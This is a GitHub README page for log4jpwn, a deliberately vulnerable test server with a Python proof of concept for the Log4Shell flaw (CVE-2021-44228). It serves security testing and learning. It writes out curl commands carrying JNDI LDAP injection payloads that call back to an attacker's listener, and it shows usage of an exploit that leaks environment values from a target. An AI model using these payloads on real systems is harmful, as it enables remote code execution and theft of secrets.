 # log4jpwn

log4j rce test environment and poc

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/leonjza](https://github.com/leonjza) |
| Url      | [https://github.com/leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)                                               |
| Stars    | 308                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-44228* log4j* log4shell* rce

</details>

## Readme

# log4jpwn

log4j rce test environment. See: <https://www.lunasec.io/docs/blog/log4j-zero-day/>

This repository contains an intentionally vulnerable playground to play with CVE-2021-44228 (aka: log4shell)

Experiments to trigger the vulnerability in various software products mentioned [here](https://github.com/NCSC-NL/log4shell/tree/main/software) can be found in the [vuln-software/](vuln-software/) directory.

## examples

![1](images/image.png)

using the included python poc

![2](images/poc.png)

## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

```bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'
```

## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --listen-port 5555`



## Get the content

```
git clone https://github.com/leonjza/log4jpwn
cd log4jpwn
```

{% embed url="https://github.com/leonjza/log4jpwn" %}

<figure><img src="https://avatars.githubusercontent.com/u/1148127?v=4" alt=""><figcaption><p>leonjza</p></figcaption></figure>
